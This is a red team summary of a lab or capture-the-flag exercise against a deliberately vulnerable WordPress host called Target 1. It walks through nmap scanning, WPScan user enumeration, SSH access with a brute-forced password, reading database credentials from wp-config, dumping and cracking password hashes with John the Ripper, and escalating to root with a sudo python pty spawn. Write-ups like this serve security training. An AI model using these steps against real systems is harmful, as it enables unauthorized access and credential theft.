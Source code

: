# Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Services
 
 
Nmap scan results for each machine reveal the below services and OS details:
 
Command: $ nmap -sV 192.168.1.110
  
  
![redteam1](https://user-images.githubusercontent.com/91024338/143156404-1f4162a4-e0e5-4385-884b-4daf231ff115.JPG)

 
This scan identifies the services below as potential points of entry:
 
- Target 1
 
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn 
  - Port 445/TCP Open netbios-ssn
 
The following vulnerabilities were identified on each target:
 
- Target 1

  - Weak user password
  - User enumeration (WordPress site)
  - Unsalted user password hash (WordPress site)
  - Misconfiguration of user privileges and user escalation
 
### Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
 - Flag1: b9bbcb33ellb80be759c4e844862482d
 - **Exploits Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
      - Used Brute Force to guess Michael’s password
 - Command:
      - wpscan --url http://192.168.1.110/wordpress/ --enumerate u

![redteam2](https://user-images.githubusercontent.com/91024338/143157109-f730c529-0fa3-4934-8e58-291f6b2721f3.JPG)
![redteam3](https://user-images.githubusercontent.com/91024338/143157142-49c0c5f1-e7e1-4bc6-9784-072e6d685ee6.JPG)
![redteam4](https://user-images.githubusercontent.com/91024338/143157159-d5dc97d7-2bb9-4106-9649-ce2bd54a666b.JPG)
![redteam5](https://user-images.githubusercontent.com/91024338/143157180-25422c20-6bb0-4bdb-8500-d297f4d7c77b.JPG)



 - Commands:
      - password:michael
      - ssh in michael: ssh michael@192.168.1.110
      - cd var/www/html
      - ls -l
      - nano service.html (Flag1 located) 

![redteam6](https://user-images.githubusercontent.com/91024338/143157402-7ddab105-f4dc-48ea-9d14-77bf279cd6b9.JPG)
![redteam7](https://user-images.githubusercontent.com/91024338/143157412-0322b2b3-9699-4138-88ee-9061cc2c84ea.JPG)
![redteam8](https://user-images.githubusercontent.com/91024338/143157425-b9a86fe8-902b-416e-9068-45047c6628fe.JPG)


 
 - Flag2: fc3fd58dcdad9ab23faca6e9a3e581c
 - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
      - Used password from previous Brute Force
      - Password: michael
 - Commands:     
      - ssh michael@192.168.1.110
      - cd var/www
      - ls 
      - cat flag2.txt
            
![redteam9](https://user-images.githubusercontent.com/91024338/143157461-5f80f5d5-3ed2-4d53-9237-b3a63c09179b.JPG)
      
      
 - Flag3:afc01ab56b50591e7dccf93122770cd2
 - **Exploits Used**
      - Same exploits used to gain Flag 1 and 2:
        - Accessing MySQL Database
- Commands:
	- cd /var/www/html/wordpress
	- cat wp_config.php
	- mysql -u root -p’R@v3nSecurity’ 
	- show databases;
	- use wordpress;
	- show tables;
	- select * from wp_posts;

![redteam10](https://user-images.githubusercontent.com/91024338/143157686-13ad1e0a-309f-433e-b0fe-e992eedce83a.JPG)
![redteam11](https://user-images.githubusercontent.com/91024338/143157712-ba16df30-7895-4d8c-a329-1f761bba46b2.JPG)
![redteam12](https://user-images.githubusercontent.com/91024338/143157739-a0724fed-e838-45b7-ac73-ededead52c1e.JPG)
![redteam13](https://user-images.githubusercontent.com/91024338/143157753-940e3539-dd53-415b-9027-df1ea24d8cd2.JPG)




 
 
 - Flag4:715dea6c055b9fe3337544932f2941ce
 - **Exploits used**
     - Used MySQL database to gain access to user credentials.
     - Used John the Ripper to crack the password hash.
     - Used Python to gain root privileges.
     - User credentials are stored in the ‘wp_users table’ in the wordpress database.
     - I copied/saved the usernames and password hashes to my Kali machine in a file named wp_hashes.txt.
- Commands:
	- mysql -u root -p’R@v3nSecurity’ 
	- show databases;
	- use wordpress;
	- show tables;
	- select * from wp_users;

![redteam14](https://user-images.githubusercontent.com/91024338/143157919-218bf1ae-63f2-4b22-80a1-ac2fc98b7226.JPG)

 
 - Commands:
	- cd /usr/share/wordlist
	- john --wordlist=rockyou.txt wp_hashes.txt
 
![redteam15](https://user-images.githubusercontent.com/91024338/143158223-3eea04ea-f1bb-4539-ac76-f2fd9583a468.JPG)
![redteam16](https://user-images.githubusercontent.com/91024338/143158252-026f0a7d-8737-418b-af1f-fd98361847e2.JPG)


 
 - Results: 
        - Steven’s password: pink84
        - After I cracked Steven’s password I SSH as Steven, checked for root privileges and escalated to root with Python.
 
 - Commands:
	- ssh steven@192.168.1.110
	- password: pink84
	- sudo -l
	- sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
	- cd /root
	- ls
	- cat flag4.txt

![redteam17](https://user-images.githubusercontent.com/91024338/143158406-09a79c6d-99e1-4246-95fa-82b1abd1b3f1.JPG)
![redteam18](https://user-images.githubusercontent.com/91024338/143158420-fe0269f5-e475-41ad-b374-4b1e0d07e08b.JPG)
![redteam19](https://user-images.githubusercontent.com/91024338/143158438-ac7b1fac-acd6-48ea-ac5b-aa9e31184597.JPG)

 

 

